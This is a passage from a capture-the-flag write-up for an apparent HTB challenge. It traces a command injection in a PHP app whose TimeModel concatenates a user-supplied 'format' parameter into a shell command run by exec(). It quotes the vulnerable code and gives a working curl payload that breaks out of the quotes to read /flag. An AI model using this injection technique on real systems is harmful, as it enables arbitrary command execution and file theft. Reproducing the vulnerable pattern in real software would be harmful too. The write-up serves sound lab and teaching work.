 
## 2) Inspect supplied files (local)
You were supplied several files: `Dockerfile`, `nginx.conf`, `index.php`, `TimeModel.php`, `TimeController.php`, `fpm.conf`, `supervisord.conf`, `main.css`, `favicon.png`, and `flag` (inside the build context).

Key findings from inspection:

- `nginx.conf` (important excerpt):
  - `root /www;`
  - `try_files $uri $uri/ /index.php?$query_string;`
  This means nginx serves static files from `/www` and falls back to `index.php` with query string preserved.

- `Dockerfile` (important line):
  - `COPY flag /flag`
  The `flag` file was copied to `/flag` (not to `/www`), explaining the 404 for `/flag`.

- `index.php`:
  The app registers a single route (`GET /` → `TimeController@index`) and otherwise yields 404.

- `TimeModel.php` (the vulnerable file):
  The model constructs a shell command using the user-supplied `format` parameter, then calls `exec()` on it, for example:
  ```php
  $this->command = "date '+" . $format . "' 2>&1";
  $time = exec($this->command);
  ```
  The `format` parameter is concatenated directly into the command and placed inside single quotes without escaping — this is the root cause.

---

## 3) Vulnerability analysis
Why this is vulnerable:
- Using `exec()` with user input is dangerous.
- Even though the `format` goes inside single quotes, an attacker can inject a single quote (`'`) into the parameter to break out of the quoted argument, append `;cat /flag;#` and run arbitrary commands.
- Example injection idea (decoded form): `?format=%H:%M:%S';cat /flag;#`

Key vulnerable pattern:
- Concatenation into a shell command: `"date '" . $format . "'"`
- No escaping (`escapeshellarg` not used), no validation or whitelist.

---

## 4) Exploitation — exact commands
Below are the commands used to exploit the vulnerability and retrieve the flag. **Run them only against boxes you have permission to test (like this HTB challenge).**

**Payload 1 (URL-encoded)** — single-shot command injection:
```
curl -s "http://94.237.123.160:42908/?format=%H:%M:%S%27%3Bcat%20%2Fflag%3B%23"
```
**Decoded payload:** `?format=%H:%M:%S';cat /flag;#`  
**What it does:** closes the `'` started by the app, appends `;cat /flag;` then `#` to comment out the rest of the command.
